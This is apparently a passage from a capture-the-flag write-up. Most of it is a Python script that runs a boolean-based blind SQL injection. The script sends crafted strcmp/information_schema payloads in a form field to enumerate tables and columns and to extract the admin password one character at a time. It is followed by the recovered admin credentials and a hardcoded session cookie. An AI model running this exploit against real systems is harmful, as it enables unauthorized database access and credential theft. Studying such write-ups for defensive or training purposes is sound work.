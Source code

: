 ```

#proxies = {
#  'http': 'http://127.0.0.1:8080',
#  'https': 'http://127.0.0.1:8080',
#}





cookie = {"session":"b41fc04adcd4488d7207695cbe60b55e"}



list = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
#list="\\.,/@';#~][{})(-_=+\"!$£%^&*"
#list = "EFGHIJKLMNOPQRSTUVWXYZ0123456789"


for i in list:

    #a = "asd' or (select strcmp((select substr(table_name,1,1) from information_schema.tables where table_schema not like 'information_schema' limit 1 offset 1),'{}')=0)#".format(i)
    #a = "asd' or (select strcmp((SELECT substr(column_name,1,1) FROM information_schema.columns WHERE table_name = 'admin' limit 1 offset 0), '{}')=0)".format(i)
    a = "asd' or (select strcmp((SELECT substr(column_name,1,1) FROM information_schema.columns WHERE table_name = 'admin' limit 1 offset 1), '{}')=0)#".format(i)

    #a = "asd' or (select strcmp((select 1 from admin where substr(password,1,1)),'{}'))#".format(i)
    #a = "aaa' or (select+1+from+admin+where+MD5(SUBSTRING(password,1,1))=MD5(CHAR('{}')))#".format(i)
    data_name = {"name":"{}".format(a)}
    print(i)
    r = requests.post(baseurl, data=data_name, cookies=cookie)
    print(r.status_code)
    r = requests.get(scoreurl, cookies=cookie)
    #print(r.text)
    m = re.search("There is.*<", r.text)
    print(m.group(0))
```
There are various bits and bobs from the exploit process to grab what we need, enumerating tables and columns, grabbing the username and passowrd value one char at a time.
Logging in with the obtained credentials:
```
username: admin
password: S3creT_p4ssw0rd-$
```
{F1127844}

------------------------------------
# Signup Manager:
------------------------------------
